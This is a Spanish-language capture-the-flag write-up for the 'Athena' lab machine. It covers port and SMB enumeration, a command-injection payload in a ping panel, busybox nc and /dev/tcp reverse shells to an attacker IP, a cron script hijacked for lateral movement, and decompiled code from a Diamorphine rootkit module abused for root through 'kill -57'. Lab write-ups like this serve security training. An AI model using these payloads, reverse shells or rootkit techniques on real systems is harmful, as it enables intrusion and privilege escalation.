


# Athena

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han detectado cuatro puertos abiertos en el sistema. El puerto `22` está destinado a `SSH`, mientras que el puerto `80` se utiliza para `HTTP`. Además, los puertos `139` y `445` están relacionados con el protocolo `SMB`.

<figure><figcaption></figcaption></figure>

Enumeramos los directorios que tenemos disponibles en el puerto `HTTP`.&#x20;

```bash
gobuster dir --url <ip> -w /usr/share/wordlists/dirb/big.txt
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


No hemos encontrado información interesante, así que procedemos a realizar una enumeración utilizando `FFUF`. Sin embargo, para nuestra sorpresa, tampoco descubrimos nada relevante.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://athena.thm/ -H "Host:FUZZ.athena.thm"
```

<figure><figcaption></figcaption></figure>

Solo nos queda enumerar los servicios de SMB, lo cual podemos hacer utilizando el siguiente comando:

``` bash
smbclient -L \\\10.10.71.73 
```

<figure><figcaption></figcaption></figure>

En esta ocasión, hemos encontrado servicios a los que podemos acceder, y decidimos ingresar al servicio que está configurado como público.

```bash 
smbclient \\\\10.10.71.73\\public
 ```

<figure><figcaption></figcaption></figure>


Al acceder, encontramos un mensaje dirigido al administrador, lo cual podría proporcionarnos información valiosa para el desarrollo del laboratorio. Procederemos a descargarlo y leerlo en nuestra máquina utilizando el siguiente comando. Dado que no hay nada más de interés, finalizaremos nuestra sesión.

```shell
get msg_for_administrator.txt
exit
```

<figure><figcaption></figcaption></figure>

El mensaje indica que el Interno del departamento de TI ha desarrollado una aplicación para realizar pings y la ha dejado alojada en: `/myrouterpanel/`.

<figure><figcaption></figcaption></figure>

Esto nos brinda la oportunidad de probar varias cosas. Primero, realizaremos un ping a `localhost` (`127.0.0.1`) para verificar si podemos acceder al sistema interno.

<figure><figcaption></figcaption></figure>

# Reverse Shell

Ahora necesitamos intentar escapar del comando `ping` y ejecutar nuestros propios comandos. Para ello, te sugiero utilizar `FFUF` o, alternativamente, `Burp Suite`. Para escapar del comando `ping` e intentar ejecutar un comando diferente, podemos emplear la siguiente lista de payloads.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/Intruder/command_exec.txt" %}

En este caso, podemos utilizar `%0A` para salir del comando `ping` y ejecutar el comando `cat /etc/passwd`.

<figure><figcaption></figcaption></figure>

Con esto, podemos implementar una reverse shell para obtener acceso remoto al sistema.

* BurpSuite
```bash
busybox nc 10.9.0.225 4242 -e sh
```

* Attack machine
```bash
nc -lvnp 4242
```

Nuestro comando final para Burp Suite quedaría de la siguiente manera:

``` burp
ip=127.0.0.1%0Abusybox nc 10.9.0.225 4242 -e sh&1&submit=
```


<figure><figcaption></figcaption></figure>





# Enumeracion del sistema www-data

Intentamos enumerar los servicios y tareas a los que tenemos acceso utilizando `linpeas` y `pspy64`.

Con `linpeas`, no encontré información relevante, aunque si tienes tiempo, puedes probar cada opción individualmente para tener una mejor idea. Sin embargo, con `pspy64`, obtuve una respuesta que indica que se ejecuta un comando a intervalos regulares.

``` bash
/bin/bash /usr/share/backup/backup.sh
```


<figure><figcaption></figcaption></figure>


Verificamos si tenemos permisos para escribir en el archivo `backup.sh`. Si es así, dado que se ejecuta a intervalos regulares, podemos intentar insertar un comando para establecer una shell inversa con los permisos del usuario que lo ejecuta. Por lo tanto, modificamos el archivo para que ejecute la shell inversa.

```bash
sh -i >& /dev/tcp/10.9.0.225/4243 0>&1
```


```backup.sh
www-data@routerpanel:/usr/share/backup$ cat backup.sh _zip"positions.or directory                            
#!/bin/bash                                                                                                  
sh -i >& /dev/tcp/10.9.0.225/4243 0>&1                                                                       
backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."

```


Esperamos un momento hasta que se ejecute el `script` y, finalmente, obtenemos acceso a una shell del usuario `athena`, lo que nos permite leer la flag.



<figure><figcaption></figcaption></figure>


# Enumeracion de Athena

Para comenzar, utilizamos el siguiente comando para enumerar los archivos que podemos ejecutar con privilegios de root.

```bash
sudo -l
```

<figure><figcaption></figcaption></figure>


Observamos que podemos ejecutar la aplicación `venom.ko`. Para analizar esta aplicación, utilizaremos `Ghidra` para examinar qué funciones ejecuta. Primero, configuramos un servidor HTTP en Python para transferir el archivo, lo descargamos y luego lo analizamos con `Ghidra`.

>Ghidra es una herramienta de ingeniería inversa de software desarrollada por la Agencia de Seguridad Nacional de los Estados Unidos (NSA). Es de código abierto y se utiliza para analizar binarios y desensamblar código, lo que permite a los analistas de seguridad y a los investigadores examinar el funcionamiento interno de aplicaciones y sistemas.


```shell 
Victim

python3 -m http.server 8458

Attack

wget http://<ip>:<port>/venom.ko
```


<figure><figcaption></figcaption></figure>

En la lista de funciones, tenemos una primera impresión de lo que estamos tratando aquí. diamorphine.

<figure><figcaption></figcaption></figure>

>Diamorphine es un rootkit que cambia el comportamiento del programa modificando las estructuras de datos del kernel. Entre otras cosas, se esconde de lsmod, un comando que enumera todos los módulos cargados. Cuando Diamorphine se carga, modifica la lista enlazada de módulos dentro del espacio del kernel para asegurarse de que permanezca oculto

Al buscar un rootkit LKM de Diamorphine, encontramos en GitHub una publicacionn que modifica la llamada al sistema kill para obtener root. 




```C
#Venom/diamorphine_init

/* WARNING: Function: __fentry__ replaced with injection: fentry */
/* WARNING: Function: __x86_return_thunk replaced with injection: x86_return_thunk */
/* WARNING: Removing unreachable block (ram,0x00100812) */
/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */
/* WARNING: Unknown calling convention */

int diamorphine_init(void)

{
  long lVar1;
  ulong *puVar2;
  int iVar3;
  long in_GS_OFFSET;
  ulong __force_order;
  
  lVar1 = *(long *)(in_GS_OFFSET + 0x28);
  __sys_call_table = get_syscall_table_bf();
  iVar3 = -1;
  if (__sys_call_table != (ulong *)0x0) {
    cr0 = (*_commit_creds)();
    module_hidden = 1;
    (__this_module.list.next)->prev = __this_module.list.prev;
    (__this_module.list.prev)->next = __this_module.list.next;
    module_previous = __this_module.list.prev;
    __this_module.list.next = (list_head *)0xdead000000000100;
    __this_module.list.prev = (list_head *)0xdead000000000122;
    kfree(__this_module.sect_attrs);
    puVar2 = __sys_call_table;
    __this_module.sect_attrs = (module_sect_attrs *)0x0;
    orig_getdents = (t_syscall)__sys_call_table[0x4e];
    orig_getdents64 = (t_syscall)__sys_call_table[0xd9];
    orig_kill = (t_syscall)__sys_call_table[0x3e];
    __sys_call_table[0x4e] = (ulong)hacked_getdents;
    puVar2[0xd9] = (ulong)hacked_getdents64;
    puVar2[0x3e] = (ulong)hacked_kill;
    iVar3 = 0;
  }
  if (lVar1 != *(long *)(in_GS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return iVar3;
}
```

Entendamos un poco de lo que hace este codigo:

>En el código, se define un puntero, `puVar2`, que apunta a la tabla de llamadas al sistema en la línea 27. Posteriormente, en las líneas 29 a 31, se capturan las direcciones de las funciones originales `getdents`, `getdents64` y `kill`. Luego, en las líneas 33 y 34, se modifican las entradas correspondientes a `kill` y `getdents` en la tabla de llamadas al sistema, redirigiéndolas hacia las funciones `hacked_getdents64` y `hacked_kill`. Esta modificación permite que cualquier invocación de la llamada al sistema `kill` sea interceptada por `hacked_kill`, lo que otorga al rootkit la capacidad de alterar el comportamiento de esta llamada al sistema.

```C
#Venom/hacked_kill

/* WARNING: Function: __fentry__ replaced with injection: fentry */
/* WARNING: Function: __x86_indirect_thunk_rax replaced with injection: x86_indirect_thunk_rax */
/* WARNING: Function: __x86_return_thunk replaced with injection: x86_return_thunk */
/* WARNING: Removing unreachable block (ram,0x00100650) */
/* WARNING: Removing unreachable block (ram,0x001005ed) */
/* WARNING: Removing unreachable block (ram,0x00100604) */
/* WARNING: Removing unreachable block (ram,0x001005ab) */
/* WARNING: Removing unreachable block (ram,0x00100569) */
/* WARNING: Removing unreachable block (ram,0x00100576) */
/* WARNING: Unknown calling convention */

int hacked_kill(pt_regs *pt_regs)

{
  undefined1 *puVar1;
  list_head *plVar2;
  int iVar3;
  long lVar4;
  undefined *puVar5;
  
  plVar2 = module_previous;
  iVar3 = (int)pt_regs->si;
  if (iVar3 == 0x39) {
    give_root();
    return 0;
  }
  if (iVar3 == 0x3f) {
    if (module_hidden == 0) {
      module_previous = __this_module.list.prev;
      (__this_module.list.next)->prev = __this_module.list.prev;
      (__this_module.list.prev)->next = __this_module.list.next;
      __this_module.list.next = (list_head *)0xdead000000000100;
      __this_module.list.prev = (list_head *)0xdead000000000122;
      module_hidden = 1;
      return 0;
    }
    __this_module.list.next = module_previous->next;
    (__this_module.list.next)->prev = &__this_module.list;
    __this_module.list.prev = plVar2;
    module_hidden = 0;
    plVar2->next = (list_head *)0x101008;
    return 0;
  }
  if (iVar3 != 0x1f) {
    lVar4 = (*orig_kill)(pt_regs);
    return (int)lVar4;
  }
  puVar5 = &init_task;
  do {
    puVar1 = *(undefined1 **)(puVar5 + 0x848);
    puVar5 = puVar1 + -0x848;
    if (puVar1 == &DAT_00102880) {
      return -3;
    }
  } while ((int)pt_regs->di != *(int *)(puVar1 + 0x108));
  if (puVar5 == (undefined *)0x0) {
    return -3;
  }
  *(uint *)(puVar1 + -0x81c) = *(uint *)(puVar1 + -0x81c) ^ 0x10000000;
  return 0;
}
```

La función `hacked_kill` se encarga de gestionar las señales que recibe. En su implementación, verifica el valor de `iVar3`, que corresponde al número de señal que se pasa como argumento en la llamada al sistema para eliminar un proceso. Dependiendo del valor de `iVar3`, la función ejecuta diferentes acciones: si `iVar3` es `0x39`, se llama a la función `give_root`, lo que implica que este número de señal específico activa un mecanismo de escalada de privilegios. En cambio, si `iVar3` es `0x3f`, la función alterna el estado de ocultación del módulo, permitiendo que el rootkit se oculte o se haga visible según sea necesario.

```C
#Venom/give_root
/* WARNING: Function: __fentry__ replaced with injection: fentry */
/* WARNING: Function: __x86_return_thunk replaced with injection: x86_return_thunk */
/* WARNING: Removing unreachable block (ram,0x0010052c) */
/* WARNING: Unknown calling convention -- yet parameter storage is locked */

void give_root(void)

{
  long lVar1;
  
  lVar1 = prepare_creds();
  if (lVar1 != 0) {
    *(undefined8 *)(lVar1 + 4) = 0;
    *(undefined8 *)(lVar1 + 0xc) = 0;
    *(undefined8 *)(lVar1 + 0x14) = 0;
    *(undefined8 *)(lVar1 + 0x1c) = 0;
    commit_creds(lVar1);
  }
  return;
}
```

La función `give_root` se encarga de realizar acciones que pueden conducir a una escalada de privilegios. En su ejecución, crea una nueva estructura de credenciales, ajusta ciertos campos dentro de esta y, finalmente, valida las nuevas credenciales. Esto implica que, para que la función `hacked_kill` pueda invocar `give_root` y facilitar la escalada de privilegios, es necesario pasarle el valor `0x39`.


# Root



```
athena@routerpanel:~$ sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko

```

Para cargar el comando ejecutamos el comando que tenemos para root.

```bash
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
```

Al ejecutarlo, en realidad no obtenemos una respuesta visible, pero lo que hemos hecho es cargar el módulo para ejecutarlo con privilegios de root.

Es posible interactuar con el módulo utilizando la función `kill`, especificando el número de señal deseado y apuntando a todos los procesos al indicar 0 como el ID de proceso o grupo de procesos. Al enviar el valor 63 (0x3f en hexadecimal) a través del comando `kill` a todos los procesos, podemos comprobar que el módulo `venom` está activo utilizando el comando `lsmod`. 
Con esto verificamos que el proceso realmente este activo.

``` bash
kill -63 0
lsmod | grep venom
```

Ahora es el momento de la explotación. Con el siguiente comando, podemos obtener acceso como root a través del programa que se explicó anteriormente.

```bash
kill -57 0
```

<figure><figcaption></figcaption></figure>

Asi podemos ya leer la Flag de Root y tener sus privilegios.


>Disfruta de los momentos más dulces con las personas que son importantes para ti. Hoy pueden estar completamente unidos, pero mañana podrían ser solo desconocidos. Tu corazón anhelará revivir esos instantes, mientras que tu mente te recordará que no podrás volver a sentirlos de la misma manera. Las amistades no son eternas; puedes tropezar y perderlas. Por eso, cuídalas, protégelas y atesóralas. Recuerda que el presente es valioso y que el futuro es incierto, así que vive cada día como si no hubiera un mañana.
>
><p align="center"></p>